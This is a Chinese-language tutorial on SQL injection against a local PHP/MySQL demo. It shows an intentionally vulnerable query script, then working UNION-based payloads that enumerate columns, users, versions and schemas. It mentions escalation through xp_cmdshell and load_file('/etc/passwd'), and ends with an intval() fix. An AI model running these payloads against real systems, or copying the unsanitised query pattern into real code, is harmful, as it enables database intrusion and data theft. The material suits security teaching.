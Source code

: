 # SQL注入

### 环境：

​	使用phpstorm IDE 、 xampp集成环境 、php版本7.1

### 解释型语言和编译型语言:

​       解释型语言:运行是由一个运行时组件解释语言代码并执行其中包含的指令语言。

​       编译型语言:是由它的代码在生成可执行文件时换转成机器指令,然后在运行时直接由该语言的计算机处理器执行指令.

​	从理论上讲,任何语言都可使用编译器或解释器或来执行,这种区别不是语言本身的内在特性,通常大多数语言仅通过上述其中一种方式执行.基于解释型语言的执行方式,产生了一	系列叫做代码注入的漏洞。

### 如何才能看懂程序：

​	web应用程序也好，还是app等等，只要和数据库交互就会有CRUD。

​	如何看懂一个程序，分三步：（即便是编程语言C\C++\python\java\等等编程语言都会遵守语法规则去一步步执行）

​	    1.流程：

​		程序的开始例如：php web应用程序首先是有个index.php  里面会包含类、引用那个.php文件调用了那个方法（方法也叫函数）一步一步跟读

​	    2.每个语句的功能：

​		这行代码要执行什么操作，例如：if (a == True){  。。。 }  

​            3.试数：

​		例如：IDE中的debug调试或单元测试，传入参数，放行执行，返回的结果是不是期望值，错误很容易定位。				

### php代码：

```php
<?php

$id = @$_GET['id'];

if (!isset($id) || empty($id)) {
    exit("get.id 参数不能为空");
}

try{
    $dsn = "mysql:host=127.0.0.1; port=3306; dbname=demo;";

    $user = "root";
    $password = "";
    $pdo = new PDO($dsn,$user,$password);

    $sql = "select * from myguests where id = "."'{$id}'";

    echo $sql;
    echo "<br>";

    $res = $pdo->query($sql) or var_dump($pdo->errorInfo());

    $mon = $res->fetch(PDO::FETCH_ASSOC);

    print_r($mon);

} catch (Exception $e) {
    print $e->getMessage();
    exit();
}
?>
```

### 数据库：

```sql
CREATE TABLE MyGuests (
id INT(6) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
firstname VARCHAR(30) NOT NULL,
lastname VARCHAR(30) NOT NULL,
email VARCHAR(50),
reg_date TIMESTAMP
)
```

### 参数注入：

URL:http://localhost:8888/phpouith/demo.php?id=1  #这是正常访问查询数据库ID的正常行为。

当我们查询并拼接SQL语句时，无任何的过滤限制就存在SQL注入。

出现注入的漏洞在代码开头 ：

```php
$id = @$_GET['id']; #这句话,传入查询参数没过滤。
```

php官方解释：<https://php.net/manual/zh/security.database.sql-injection.php>

拼接一个符号就会查询报错，在页面能看到错误

URL:http://localhost:8888/phpouith/demo.php?id=1'

拼接URLhttp://localhost:8888/phpouith/demo.php?id=1 and 1=1 #不会出现错误

mysql语法，当and 1=1 时1=1数字相等，返回的是true也就是真。语法没有错误，查询的结果也就返回了id=1的查询语句

因为Mysql没有Boolen类型 ，不过 true 等于1 false等于0

```sql
select * from myguests where id = 1 and 1 = 1;
```

mysql Oracle sqlserver 语法基本一样 只有一些细微的差别。

String 查询 http://localhost:8888/phpouith/demo.php?id=1' and '1'='1

```sql
select * from myguests where id = '1' and '1'='1' #string(1)=string(1) 同样为True
```

更加有意思的是这段拼接： http://localhost:8888/phpouith/demo.php?id=1' and '1'='1'='1

```sql
select * from myguests where id = '1' and '1'='1'='1'
```

id = '1' and '1'='1'='1' 表达式是从左到右, id = '1' 返回 0,查询的表中id. 新的表达式0='1' , =不能直接比较不同类型的两个值,'1'会被隐士转换为double类型进行于0比较,但这个字母数字值不能被转换,会返回一个0, 最终表达式 0=0,结果为true。

猜表列数：http://localhost:8888/phpouith/demo.php?id=1' order by 5 -- 1 #表中总共五列，

```sql
select * from myguests where id = '1' order by 5 -- 1' #一直加大直到报错，说明表中只有五列
```

联合查询 union :http://localhost:8888/phpouith/demo.php?id=1'union select 1,2,3,4,5 -- 1

```sql
select * from myguests where id = '1' union select 1,2,3,4,5 -- 1'
select * from myguests where id = '1' union select 1,2,3,4,5,6 -- 1' #增加到6时表中列数不足会报错，说明表中只有5列
```

调用mysql函数： http://localhost:8888/phpouith/demo.php?id=-1' union select 1, user(), database(),4,5 -- 1

```sql
select * from myguests where id = '=-1' union select 1, user(), database(),4,5 -- 1'

Array ( [id] => 1 [firstname] => root@localhost [lastname] => demo [email] => 4 [reg_date] => 5 ) 

http://localhost:8888/phpouith/demo.php?id==-1' union select 1, user(), database(),version(),5 -- 1

select * from myguests where id = '=-1' union select 1, user(), database(),version(),5 -- 1'

Array ( [id] => 1 [firstname] => root@localhost [lastname] => demo [email] => 10.1.38-MariaDB [reg_date] => 5 ) 

```

函数功能 ：DATABASE()返回当前数据库名，VERSION()返回当前数据库版本，USER()返回当前登录用户名，PASSWORD(str)返回字符串str的加密版本

MD5()返回字符串str的MD5值。  **更多函数用法详见:mysql官方文档**

通过攻破数据库提升权限:

xp_cmdshell 运行数据库管理员以cmd.exe命令提示符相同的方式执行操作系统命令

Oracle 可利用DBMS_JVM_EXP_PERMS.TEMP_JAVA_POLICY  使用DBMS_JAVA.RUNJAVA  Java类来访问系统

MySql FILE_PRIV 可用以读取并写入文件. select load_file('/etc/passwd')



连接的用户、数据、服务器版本：http://localhost:8888/phpouith/demo.php?id=-1' union select 1, 2, 3,4, group_concat(schema_name) from information_schema.schemata -- 1

```sql
select * from myguests where id = '=-1' union select 1, 2, 3,4, group_concat(schema_name) from information_schema.schemata -- 1'
Array ( [id] => 1 [firstname] => 2 [lastname] => 3 [email] => 4 [reg_date] => demo,information_schema,mysql,performance_schema,phpmyadmin,test ) 
```



### 修复：

```php
$id = @intval($_GET['id']);
```

php官方解释：<https://php.net/manual/zh/function.intval.php>

修复后：http://localhost:8888/phpouith/demo.php?id=1‘ #不在报错

```sql
select * from myguests where id = '1'
Array ( [id] => 1 [firstname] => jack [lastname] => losse [email] => jack@email.com [reg_date] => 2019-04-21 14:34:16 ) 
```

